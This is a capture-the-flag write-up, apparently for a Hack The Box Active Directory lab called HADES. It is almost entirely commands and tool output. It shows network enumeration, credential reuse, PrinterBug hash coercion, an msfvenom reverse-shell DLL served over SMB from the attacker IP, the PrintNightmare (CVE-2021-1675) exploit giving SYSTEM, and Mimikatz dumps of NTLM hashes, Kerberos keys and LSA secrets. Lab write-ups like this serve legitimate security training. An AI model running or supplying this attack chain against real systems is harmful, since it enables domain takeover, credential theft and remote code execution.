I will report the scan ports:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains nmap -p 22,53,80,88,443,445,2049,3389,5985,8080 192.168.3.202 -Pn -A -T4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-20 11:40 CEST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Traceroute
Traceroute Timing: About 32.26% done; ETC: 11:40 (0:00:00 remaining)
Nmap scan report for 192.168.3.202
Host is up.

PORT     STATE    SERVICE       VERSION
22/tcp   filtered ssh
53/tcp   filtered domain
80/tcp   filtered http
88/tcp   filtered kerberos-sec
443/tcp  filtered https
445/tcp  filtered microsoft-ds
2049/tcp filtered nfs
3389/tcp filtered ms-wbt-server
5985/tcp filtered wsman
8080/tcp filtered http-proxy
Too many fingerprints match this host to give specific OS details

TRACEROUTE (using proto 1/icmp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.93 seconds
                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains nmap -p 22,53,80,88,443,445,2049,3389,5985,8080 192.168.3.203 -Pn -A -T4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-20 11:54 CEST
Nmap scan report for 192.168.3.203
Host is up.

PORT     STATE    SERVICE       VERSION
22/tcp   filtered ssh
53/tcp   filtered domain
80/tcp   filtered http
88/tcp   filtered kerberos-sec
443/tcp  filtered https
445/tcp  filtered microsoft-ds
2049/tcp filtered nfs
3389/tcp filtered ms-wbt-server
5985/tcp filtered wsman
8080/tcp filtered http-proxy
Too many fingerprints match this host to give specific OS details
```

And running the Enum4Linux-ng shows that the machine relying on 192.168.3.201 is the HADES-DEV:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains enum4linux-ng -A 192.168.3.203
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.3.203
[*] Username ......... ''
[*] Random Username .. 'nryxkvax'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ======================================
|    Listener Scan on 192.168.3.203    |
 ======================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:389  ...  OK
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:636  ...  OK
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:139 <--denied
[-] Could not connect to SMB over NetBIOS on 139/tcp: connection refused

 =====================================================
|    Domain Information via LDAP for 192.168.3.203    |
 =====================================================
[*] Trying LDAP
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:389  ...  OK
[+] Appears to be root/parent DC
[+] Long domain name is: htb.local

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.3.203    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 192.168.3.203    |
 ==========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: true

 ============================================================
|    Domain Information via SMB session for 192.168.3.203    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: DC1
NetBIOS domain name: HTB
DNS domain: htb.local
FQDN: dc1.htb.local
Derived membership: domain member
Derived domain: HTB

 ==========================================
|    RPC Session Check on 192.168.3.203    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ====================================================
|    Domain Information via RPC for 192.168.3.203    |
 ====================================================
[+] Domain: HTB
[+] Domain SID: S-1-5-21-4266912945-3985045794-2943778634
[+] Membership: domain member

 ================================================
|    OS Information via RPC for 192.168.3.203    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

 ======================================
|    Users via RPC on 192.168.3.203    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 =======================================
|    Groups via RPC on 192.168.3.203    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 =======================================
|    Shares via RPC on 192.168.3.203    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ==========================================
|    Policies via RPC for 192.168.3.203    |
 ==========================================
[*] Trying port 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED

 ==========================================
|    Printers via RPC for 192.168.3.203    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 31.00 seconds
```

After we found BOB credentials we can try to check again for possible shares but nothing came out so far:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains crackmapexec smb 'dev.htb.local' -u 'bob' -p 'Passw0rd1!' --shares
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:135  ...  OK
SMB         dev.htb.local   445    DEV              [*] Windows Server 2019 Standard 17763 x64 (name:DEV) (domain:htb.local) (signing:False) (SMBv1:True)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:445  ...  OK
SMB         dev.htb.local   445    DEV              [+] htb.local\bob:Passw0rd1! 
SMB         dev.htb.local   445    DEV              [+] Enumerated shares
SMB         dev.htb.local   445    DEV              Share           Permissions     Remark
SMB         dev.htb.local   445    DEV              -----           -----------     ------
SMB         dev.htb.local   445    DEV              IPC$                            Remote IPC
```

Since the share is not working we could try to login via WIN-RM protocoll with Evil-Winrm with Bob's creds but it doesn't work:



Here we could check what servers have Printspooler and exploit famous bugs like PrinterBug or PrintNightmare:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains crackmapexec smb 'web.htb.local' -u bob -p Passw0rd1! -M spooler
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:135  ...  OK
SMB         web.htb.local   445    WEB              [*] Windows Server 2012 R2 Standard 9600 x64 (name:WEB) (domain:htb.local) (signing:False) (SMBv1:True)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
SMB         web.htb.local   445    WEB              [-] Connection Error: The NETBIOS connection with the remote host timed out.
                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains crackmapexec smb 'web.htb.local' -u bob -p Passw0rd1! -M spooler
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:135  ...  OK
SMB         web.htb.local   445    WEB              [*] Windows Server 2012 R2 Standard 9600 x64 (name:WEB) (domain:htb.local) (signing:False) (SMBv1:True)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:445  ...  OK
SMB         web.htb.local   445    WEB              [+] htb.local\bob:Passw0rd1! 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:135  ...  OK
                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains crackmapexec smb 'dev.htb.local' -u bob -p Passw0rd1! -M spooler
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:135  ...  OK
SMB         dev.htb.local   445    DEV              [*] Windows Server 2019 Standard 17763 x64 (name:DEV) (domain:htb.local) (signing:False) (SMBv1:True)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:445  ...  OK
SMB         dev.htb.local   445    DEV              [+] htb.local\bob:Passw0rd1! 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:135  ...  OK
SPOOLER     dev.htb.local   445    DEV              Spooler service enabled
```

Good to know that DEV have printspooler active, now we could use either https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py or this one https://github.com/cube0x0/CVE-2021-1675



So trying the first path:

1.  Setup a listening responder on my VPN interface
2.  Send the payload

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains python3 /home/millycash/Downloads/Exploits/krbrelayx/printerbug.py 'htb.local'/bob:'Passw0rd1!'@192.168.3.201 10.10.14.6 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[*] Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attempting to trigger authentication via rprn RPC at 192.168.3.201
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:445  ...  OK
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```

That gave us devs Hash back in responder:

```Bash
[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.6]
    Responder IPv6             [dead:beef:2::1004]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-KW8AGZGQAEV]
    Responder Domain Name      [A1LN.LOCAL]
    Responder DCE-RPC Port     [49187]

[+] Listening for events...

[SMB] NTLMv1-SSP Client   : 10.13.38.17
[SMB] NTLMv1-SSP Username : HTB\DEV$
[SMB] NTLMv1-SSP Hash     : DEV$::HTB:F6DF81865ED6A7DF00000000000000000000000000000000:BCCCE6330413603569349B6F4309644BA248AD718FA94494:289e04ffac0f08c8
```

But the hash can't be decrypted so I will try to use the PrintNightmare by hosting a malicious DDL and fetch the request via Meterpreter:

1)Create the DLL payload:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=5555 -f dll -o print.dll  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: print.dll
```

2)Prepare the SMB share:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# impacket-smbserver -smb2support Tools /home/millycash/Downloads/HADES/         
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.13.38.17,49903)
[*] AUTHENTICATE_MESSAGE (\,DEV)
[*] User DEV\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:Tools)
[*] Disconnecting Share(1:Tools)
[*] Closing down connection (10.13.38.17,49903)
[*] Remaining connections []
```

3)Setup the Metepreter session

```Bash
msf6 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.6       yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.6:5555
```

4)Invoke the payload:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Exploits/CVE-2021-1675]
└─# proxychains python3 CVE-2021-1675.py htb.local/bob:'Passw0rd1!'@192.168.3.201 '\\10.10.14.6\Tools\print.dll'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[*] Connecting to ncacn_np:192.168.3.201[\PIPE\spoolss]
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:445  ...  OK
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.14.6\Tools\print.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/smbconnection.py", line 541, in writeFile
    return self._SMBConnection.writeFile(treeId, fileId, data, offset)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/smb3.py", line 1654, in writeFile
    written = self.write(treeId, fileId, writeData, writeOffset, len(writeData))
              ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/smb3.py", line 1362, in write
    if ans.isValidAnswer(STATUS_SUCCESS):
       ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/smb3structs.py", line 458, in isValidAnswer
    raise smb3.SessionError(self['Status'], self)
impacket.smb3.SessionError: SMB SessionError: STATUS_PIPE_CLOSING(The specified named pipe is in the closing state.)

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/home/millycash/Downloads/Exploits/CVE-2021-1675/CVE-2021-1675.py", line 192, in <module>
    main(dce, pDriverPath, options.share)
  File "/home/millycash/Downloads/Exploits/CVE-2021-1675/CVE-2021-1675.py", line 93, in main
    resp = rprn.hRpcAddPrinterDriverEx(dce, pName=handle, pDriverContainer=container_info, dwFileCopyFlags=flags)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rprn.py", line 655, in hRpcAddPrinterDriverEx
    return dce.request(request)
           ^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 858, in request
    self.call(request.opnum, request, uuid)
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 847, in call
    return self.send(DCERPC_RawCall(function, body.getData(), uuid))
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 1300, in send
    self._transport_send(data)
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/rpcrt.py", line 1237, in _transport_send
    self._transport.send(rpc_packet.get_packet(), forceWriteAndx = forceWriteAndx, forceRecv = forceRecv)
  File "/usr/lib/python3/dist-packages/impacket/dcerpc/v5/transport.py", line 541, in send
    self.__smb_connection.writeFile(self.__tid, self.__handle, data)
  File "/usr/lib/python3/dist-packages/impacket/smbconnection.py", line 543, in writeFile
    raise SessionError(e.get_error_code(), e.get_error_packet())
impacket.smbconnection.SessionError: SMB SessionError: STATUS_PIPE_CLOSING(The specified named pipe is in the closing state.)
```

5)Result:



Now we are into HADES-DEV as NT/SYSTEM:

```Bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

And like that we can grab the Third flag:



Now again since we are in we can load Mimikatz module by typing load kiwi and dump all the creds:

```Bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain  NTLM                              SHA1
--------  ------  ----                              ----
DEV$      HTB     49d529a649ea428107037e24f9a66310  64e5969e72cd63ca93b9e13018c4893e00def362

wdigest credentials
===================

Username  Domain  Password
--------  ------  --------
(null)    (null)  (null)
DEV$      HTB     (null)

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DEV$      htb.local  c0 b3 4a 33 37 82 2d e1 62 5a 97 ae a6 64 66 05 d1 40 b1 b0 47 07 fe 44 5b 81 bb fe 61 50 b8 eb dc 7f 98 08 0a 99 29 19 8b ed bd 5b f9 e8 f8 f6 bf 63 55 ab 95 8f a7 1e 1f 5c 87 64 ac e7 0f 20 c4 c0 49 86 ff 86 c2 3d cc ce 2f 56 53 fd 20 64 7b d2 b6 bd 63 1f 4
                     d 85 60 22 25 fc e3 07 8e ac b3 74 57 74 f7 32 da 76 5f 25 39 47 24 1c 02 45 e4 da 9c 9f 71 e1 ab 2b b3 c8 5f 36 cb 44 08 26 40 4c f2 38 64 90 32 66 49 e8 fe b1 f8 e7 e4 b9 c6 20 b7 02 12 16 c5 ea f2 9e 4c 9f d9 49 02 36 a7 36 f8 52 4d 3d eb 1d fb 57 61 08 03
                      3a 8c 97 94 09 20 f6 08 92 8f 0a a4 da d8 b7 e9 df 90 b5 fd 04 56 a9 60 95 fb d6 42 f8 04 c0 c0 5d 56 02 ea b1 29 b3 16 ce 91 d1 46 c9 e5 12 53 00 b7 ab 25 f7 3f 6c e3 20 3e 4e bc c4 16 53 94 62 f7 f5
dev$      HTB.LOCAL  c0 b3 4a 33 37 82 2d e1 62 5a 97 ae a6 64 66 05 d1 40 b1 b0 47 07 fe 44 5b 81 bb fe 61 50 b8 eb dc 7f 98 08 0a 99 29 19 8b ed bd 5b f9 e8 f8 f6 bf 63 55 ab 95 8f a7 1e 1f 5c 87 64 ac e7 0f 20 c4 c0 49 86 ff 86 c2 3d cc ce 2f 56 53 fd 20 64 7b d2 b6 bd 63 1f 4
                     d 85 60 22 25 fc e3 07 8e ac b3 74 57 74 f7 32 da 76 5f 25 39 47 24 1c 02 45 e4 da 9c 9f 71 e1 ab 2b b3 c8 5f 36 cb 44 08 26 40 4c f2 38 64 90 32 66 49 e8 fe b1 f8 e7 e4 b9 c6 20 b7 02 12 16 c5 ea f2 9e 4c 9f d9 49 02 36 a7 36 f8 52 4d 3d eb 1d fb 57 61 08 03
                      3a 8c 97 94 09 20 f6 08 92 8f 0a a4 da d8 b7 e9 df 90 b5 fd 04 56 a9 60 95 fb d6 42 f8 04 c0 c0 5d 56 02 ea b1 29 b3 16 ce 91 d1 46 c9 e5 12 53 00 b7 ab 25 f7 3f 6c e3 20 3e 4e bc c4 16 53 94 62 f7 f5


meterpreter >
```

With that NTML hash we can do a technique PTH aka Pass the Hash via ex evil-Winrm and login into other machines.

We can dump SAM registry:

```Bash
meterpreter > lsa_dump_sam 
[+] Running as SYSTEM
[*] Dumping SAM
Domain : DEV
SysKey : e4b2298c95677ce18cd2198b9a36c7df
Local SID : S-1-5-21-4124311166-4116374192-336467615

SAMKey : bb3dbea7ca8bea043c6523bf5d915ae9

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 67bb396c79f56301b7dc5d219cc85d86

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 03fc719a49e2ead4264a2690b650d7f0

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.HTB.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : a0e06c2d823c4ffc2249abfd6af36dc90733a7c395ee81094261caf3d6c2dbd1
      aes128_hmac       (4096) : 6cf34b183d3555966797dcd55e6128ba
      des_cbc_md5       (4096) : 202667ab89080ebf
    OldCredentials
      aes256_hmac       (4096) : 977755e7a9132c495b90fe59cf5471cd1187b9dab491dac0cb6d02bcc5e30740
      aes128_hmac       (4096) : e56a6fc47b432e347ad3d918056626fd
      des_cbc_md5       (4096) : 074aae9e5df751f1
    OlderCredentials
      aes256_hmac       (4096) : 9d211ec8e9afdb2bd168120abc6a97375b3aa14826b6b512236c16cc361cd290
      aes128_hmac       (4096) : 99caad607311ade6c51edf9bf0afdd08
      des_cbc_md5       (4096) : 547afdf27c165e3b

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DEV.HTB.LOCALAdministrator
    Credentials
      des_cbc_md5       : 202667ab89080ebf
    OldCredentials
      des_cbc_md5       : 074aae9e5df751f1


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
```

And eventually Secrets from LSASS:

```Bash
meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : DEV
SysKey : e4b2298c95677ce18cd2198b9a36c7df

Local name : DEV ( S-1-5-21-4124311166-4116374192-336467615 )
Domain name : HTB ( S-1-5-21-4266912945-3985045794-2943778634 )
Domain FQDN : htb.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {3b9222af-b280-2349-df3a-c90841efa748}
  [00] {3b9222af-b280-2349-df3a-c90841efa748} 79ea945b6ed62712b54b404c247b2d01b644dd29292da7954b0f1f398075d99a

Secret  : $MACHINE.ACC
cur/hex : c0 b3 4a 33 37 82 2d e1 62 5a 97 ae a6 64 66 05 d1 40 b1 b0 47 07 fe 44 5b 81 bb fe 61 50 b8 eb dc 7f 98 08 0a 99 29 19 8b ed bd 5b f9 e8 f8 f6 bf 63 55 ab 95 8f a7 1e 1f 5c 87 64 ac e7 0f 20 c4 c0 49 86 ff 86 c2 3d cc ce 2f 56 53 fd 20 64 7b d2 b6 bd 63 1f 4d 85 60 22 25 fc e3 07 8e ac b3 74 57 74 f7 32 da 76 5f 25 39 47 24 1c 02 45 e4 da 9c 9f 71 e1 ab 2b b3 c8 5f 36 cb 44 08 26 40 4c f2 38 64 90 32 66 49 e8 fe b1 f8 e7 e4 b9 c6 20 b7 02 12 16 c5 ea f2 9e 4c 9f d9 49 02 36 a7 36 f8 52 4d 3d eb 1d fb 57 61 08 03 3a 8c 97 94 09 20 f6 08 92 8f 0a a4 da d8 b7 e9 df 90 b5 fd 04 56 a9 60 95 fb d6 42 f8 04 c0 c0 5d 56 02 ea b1 29 b3 16 ce 91 d1 46 c9 e5 12 53 00 b7 ab 25 f7 3f 6c e3 20 3e 4e bc c4 16 53 94 62 f7 f5 
    NTLM:49d529a649ea428107037e24f9a66310
